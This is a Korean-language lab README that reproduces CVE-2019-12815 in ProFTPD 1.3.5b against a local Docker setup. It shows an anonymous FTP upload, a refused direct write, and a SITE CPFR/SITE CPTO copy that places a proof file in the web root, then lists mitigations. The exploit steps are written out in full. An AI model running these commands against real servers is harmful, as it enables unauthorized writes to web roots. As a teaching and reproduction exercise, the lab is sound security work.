







# CVE-2019-12815 Proof-of-Concept Lab

## 1. 취약점 요약

- CVE 번호: CVE-2019-12815
- 대상: ProFTPD 1.3.5b
- 취약 구성: `mod_copy` 모듈 사용
- 취약점 성격: `SITE CPFR` / `SITE CPTO` 명령 처리 과정의 접근통제 우회

본 실습에서는 ProFTPD 1.3.5b에서 `mod_copy`가 활성화된 경우, anonymous FTP 사용자가 일반 FTP 업로드로는 쓸 수 없는 웹 루트에 파일을 복사할 수 있음을 확인한다.

확인한 내용은 다음과 같다.

- anonymous FTP 사용자는 `/incoming` 디렉터리에 `proof.html`을 업로드할 수 있다.
- `/var/www/html/proof.html`에는 일반 `STOR` 방식으로 직접 쓸 수 없다.
- 그러나 `SITE CPFR` / `SITE CPTO` 명령을 이용하면 `/incoming/proof.html`을 `/var/www/html/proof.html`로 복사할 수 있다.
- 이후 HTTP로 `http://127.0.0.1:8080/proof.html`에 접근하여 복사 결과를 확인할 수 있다.

## 2. 환경 구성

본 실습 환경은 로컬 Docker Compose 기반으로 구성되어 있다.

주요 파일은 다음과 같다.

- `Dockerfile`: FTP, 웹, PoC 실행 환경을 빌드한다.
- `docker-compose.yml`: `ftp`, `web`, `poc` 서비스를 정의한다.
- `proftpd.conf`: ProFTPD 설정과 anonymous FTP 접근 제어를 정의한다.
- `entrypoint.sh`: FTP 컨테이너 시작 시 필요한 디렉터리와 권한을 준비한다.
- `web-entrypoint.sh`: 웹 기본 페이지를 준비한다.
- `poc.py`: 수동 재현 절차를 자동화한 PoC 코드이다.

서비스 구성은 다음과 같다.

- `ftp`: ProFTPD 1.3.5b 기반 취약 FTP 환경
- `web`: `proof.html`을 확인하는 HTTP 서버
- `poc`: 자동 PoC 수행을 위한 구성 요소

외부에서 접근하는 포트는 다음과 같다.

- FTP: `127.0.0.1:2121`
- HTTP: `127.0.0.1:8080`
- FTP passive ports: `127.0.0.1:30000-30009`

웹 기본 페이지는 다음 주소에서 확인한다.

```text
http://127.0.0.1:8080/
```

웹 기본 페이지에는 다음 제목과 안내 문구가 표시된다.

```text
CVE-2019-12815 Proof-of-Concept Lab
PoC result path: /proof.html
```

## 3. 취약 조건

본 실습의 취약 조건은 다음과 같다.

- ProFTPD 1.3.5b 사용
- `mod_copy` 모듈 활성화
- anonymous FTP 로그인 허용
- `/incoming` 디렉터리는 업로드 가능
- `/var/www/html` 디렉터리는 일반 `STOR` 방식으로 직접 쓰기 불가
- `SITE CPFR` / `SITE CPTO` 명령을 통한 파일 복사가 가능한 상태

핵심 비교는 다음과 같다.

```text
일반 STOR로 웹 루트 쓰기: 실패
mod_copy의 SITE CPFR / SITE CPTO를 통한 웹 루트 복사: 성공
```

이 비교를 통해 일반 업로드에 대한 접근통제는 적용되지만, `mod_copy`의 서버 측 복사 기능을 통해 같은 대상 경로로 파일이 복사되는 것을 확인한다.

## 4. 재현 절차

### 4.1 기존 환경 초기화

이 단계는 이전 실습에서 생성된 `proof.html`이 Docker volume에 남아 PoC 전 404 확인을 방해하지 않도록 초기화하는 절차이다.

```bash
docker compose down -v --remove-orphans
```

### 4.2 이미지 빌드 및 컨테이너 실행

```bash
docker compose build --no-cache ftp web poc
```

```bash
docker compose up -d ftp web
```

```bash
docker compose ps
```

### 4.3 웹 기본 페이지 확인

```bash
curl -i http://127.0.0.1:8080/
```

또는 브라우저에서 다음 주소로 접속한다.

```text
http://127.0.0.1:8080/
```

정상 상태에서는 `CVE-2019-12815 Proof-of-Concept Lab` 페이지가 표시되어야 한다.

### 4.4 PoC 전 proof.html 미존재 확인

```bash
curl -i http://127.0.0.1:8080/proof.html
```

또는 브라우저에서 다음 주소로 접속한다.

```text
http://127.0.0.1:8080/proof.html
```

PoC 수행 전에는 다음과 같이 존재하지 않는 페이지로 확인되어야 한다.

```text
404 Not Found
```

### 4.5 proof.html 생성

`proof.html`은 제출물에 미리 포함된 파일이 아니라, 재현 과정에서 사용자가 생성하거나 `poc.py`가 업로드하는 결과 파일이다. 수동 재현에서는 다음과 같이 로컬에 파일을 생성한다.

```bash
cat > proof.html <<'EOF'
KR-VULHUB-CVE-2019-12815-PROOF
EOF
```

```bash
cat proof.html
```

기대 결과는 다음과 같다.

```text
KR-VULHUB-CVE-2019-12815-PROOF
```

### 4.6 FTP 접속 및 /incoming 업로드

FTP에 passive mode로 접속한다.

```bash
ftp -p 127.0.0.1 2121
```

로그인 정보는 다음과 같다.

```text
Name: anonymous
Password: anonymous@example.com
```

FTP 접속 후 다음 명령으로 `/incoming`에 `proof.html`을 업로드한다.

```text
cd /incoming
pwd
put proof.html
ls
```

`/incoming`은 anonymous 사용자가 업로드할 수 있는 허용된 경로이다. `proof.html` 업로드와 `ls` 확인이 성공해야 한다.

### 4.7 웹 루트 직접 쓰기 실패 확인

FTP 세션에서 다음과 같이 웹 루트로 직접 업로드를 시도한다.

```text
put proof.html /var/www/html/proof.html
```

기대 결과는 다음과 같다.

```text
550 /var/www/html/proof.html: Operation not permitted
```

일반 `STOR` 방식으로는 `/var/www/html/proof.html`에 직접 쓸 수 없음을 확인한다. 이 단계는 웹 루트에 대한 쓰기 접근통제가 적용되고 있음을 보여주는 비교 기준이다.

### 4.8 SITE CPFR / SITE CPTO로 웹 루트 복사

같은 FTP 세션에서 `SITE CPFR` / `SITE CPTO`를 사용해 `/incoming/proof.html`을 웹 루트로 복사한다.

```text
quote SITE CPFR /incoming/proof.html
quote SITE CPTO /var/www/html/proof.html
```

기대 결과는 다음과 같다.

```text
350 File or directory exists, ready for destination name
250 Copy successful
```

일반 `STOR`는 거부되었지만, `mod_copy` 명령인 `SITE CPFR` / `SITE CPTO`를 사용하면 웹 루트로 파일 복사가 성공한다. 이 단계가 CVE-2019-12815 재현의 핵심이다.

### 4.9 PoC 후 proof.html 확인

```bash
curl -i http://127.0.0.1:8080/proof.html
```

또는 브라우저에서 다음 주소로 접속한다.

```text
http://127.0.0.1:8080/proof.html
```

기대 결과에는 다음 문자열이 포함되어야 한다.

```text
KR-VULHUB-CVE-2019-12815-PROOF
```

## 5. PoC 코드

`poc.py`는 위 수동 재현 절차를 자동화한 PoC 코드이다. 전체 코드는 `poc.py`에 포함되어 있다.

`poc.py`가 수행하는 주요 흐름은 다음과 같다.

- FTP 서비스 준비 여부 확인
- HTTP 기본 페이지 확인
- PoC 전 `/proof.html` 404 확인
- FTP anonymous 로그인
- `/incoming/proof.html` 업로드
- `/var/www/html/proof.html` 직접 `STOR` 실패 확인
- `SITE CPFR` / `SITE CPTO` 수행
- HTTP로 `/proof.html` 접근
- `KR-VULHUB-CVE-2019-12815-PROOF` 문자열 확인

자동 PoC는 로컬 기준으로 다음 상태에서 수행한다.

```bash
docker compose up -d ftp web
```

자동 PoC 수행 방법은 다음과 같다.

```bash
python3 poc.py
```

`poc.py` 출력 또는 생성된 HTML에 `run-token`이 포함되는 경우가 있다. `run-token`은 이전 결과와 이번 결과를 구분하기 위해 `poc.py`가 생성하는 실행별 식별자이다. 고정 proof 문자열과 `run-token`이 함께 보이면 이번 수행에서 생성된 결과임을 확인할 수 있다.

## 6. 실행 결과

### 6.1 기본 페이지 확인



`http://127.0.0.1:8080/`에서 `CVE-2019-12815 Proof-of-Concept Lab` 페이지가 표시된다.

### 6.2 PoC 전 proof.html 404 확인



PoC 수행 전에는 `http://127.0.0.1:8080/proof.html`이 존재하지 않아 `404 Not Found`가 표시된다.

### 6.3 proof.html 생성 확인



로컬에서 `proof.html`을 생성하고 `KR-VULHUB-CVE-2019-12815-PROOF` 문자열이 포함되어 있음을 확인한다.

### 6.4 /incoming 업로드 확인



anonymous FTP로 접속하여 `/incoming` 디렉터리에 `proof.html`을 업로드하고 `ls`로 파일 존재를 확인한다.

### 6.5 웹 루트 직접 쓰기 실패 확인



일반 `STOR` 방식으로 `/var/www/html/proof.html`에 직접 업로드를 시도했지만 `550 Operation not permitted`로 거부되었다.

### 6.6 SITE CPFR / SITE CPTO 성공 확인



`SITE CPFR /incoming/proof.html` 및 `SITE CPTO /var/www/html/proof.html` 명령을 통해 파일 복사가 성공하였다.

### 6.7 PoC 후 proof.html 접근 성공



`http://127.0.0.1:8080/proof.html`에서 `KR-VULHUB-CVE-2019-12815-PROOF` 문자열이 표시된다.

실행 결과 요약은 다음과 같다.

```text
PoC 전 /proof.html은 404 Not Found
/incoming에는 proof.html 업로드 가능
/var/www/html/proof.html 직접 쓰기는 550 Operation not permitted로 실패
SITE CPFR / SITE CPTO는 성공
PoC 후 /proof.html에서 KR-VULHUB-CVE-2019-12815-PROOF 문자열 확인
```

## 7. 대응 방안

- 취약 버전 사용 중단 및 보안 패치 적용
- ProFTPD 최신 안정 버전 사용
- `mod_copy`가 필요하지 않으면 비활성화
- anonymous FTP 권한 최소화
- FTP 업로드 경로와 웹 루트 분리
- 웹 루트 쓰기 권한 제한
- `SITE CPFR` / `SITE CPTO` 사용 여부 점검
- FTP 로그에서 비정상적인 `SITE` 명령 사용 여부 모니터링
